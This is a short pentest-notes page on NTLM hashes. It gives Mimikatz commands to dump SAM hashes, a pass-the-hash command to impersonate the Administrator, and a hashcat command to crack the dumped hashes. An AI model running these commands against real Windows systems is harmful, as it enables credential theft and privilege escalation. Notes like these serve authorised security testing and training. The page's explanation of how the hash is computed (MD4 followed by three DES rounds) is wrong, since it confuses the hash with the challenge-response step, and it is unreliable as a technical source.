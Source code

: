 # NTLM

The NTLM hash is the cryptographic format in which user passwords are stored on Windows systems. NTLM hashes are stored in the SAM (security account manager) or NTDS file of a domain controller. They are a fundamental part of the mechanism used to authenticate a user through different communications protocols. It’s, therefore, critical information and highly sought after by hostile actors when trying to unleash a cyber-attack. When pentesting, for example, it’s common for attackers to try to obtain these hashes (using tools such as pwdump or mimikatz) and use Pass The Hash techniques using NTLM hashes to exploit the privileges of one or more systems. In this way, they could execute elevated privileges and even execute commands. The NTLM hash is encoded by taking the user’s password and converting it into a 16-byte key using an MD4 hash function. This key is divided into two halves of 8 bytes each, which are used as input to three rounds of DES encryption to generate a 16-byte output that represents the NTLM hash. Each DES round uses an 8-byte key derived from the original key half using a parity operation. The two 8-byte results from the three DES rounds are concatenated to form the 16-byte NTLM hash that is used to verify the user’s password in the Windows operating system. NTLM hashes are likely to be used in many Windows authentication attacks, so it’s advisable to limit their use and use Kerberos.

## Mimikatz

[Mimikatz](https://github.com/ParrotSec/mimikatz) is a very useful tool that can do many things once executed on a Windows system, like dumping NTLM hashes of the users. As their GitHub page says, it can be run with

```powershell
.\mimikatz.exe
```

Warning: Mimikatz's commands could not work depending on the Windows version. Make sure to download the correct version after checking with `systeminfo` the Windows version.

Then, if we have the privileges, it can be used to dump NTLM hashes with

```powershell
privilege::debug
token::elevate
lsadump::sam
```

To impersonate another user

```powershell
 sekurlsa::pth /user:Administrator /domain:<DOMAI> /ntlm:<NTLM-HASH> /impersonate
```

## Cracking the NTLM hashes

The **1000** code is for NTLM hashes. The username is dump along with the hash. The cracking is done with the following code

```shell
hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt
```

The plaintext credential we will find are used in the authentication method in the Windows system, like RDP, SMB or other services, if the user has the required privileges to use that services.
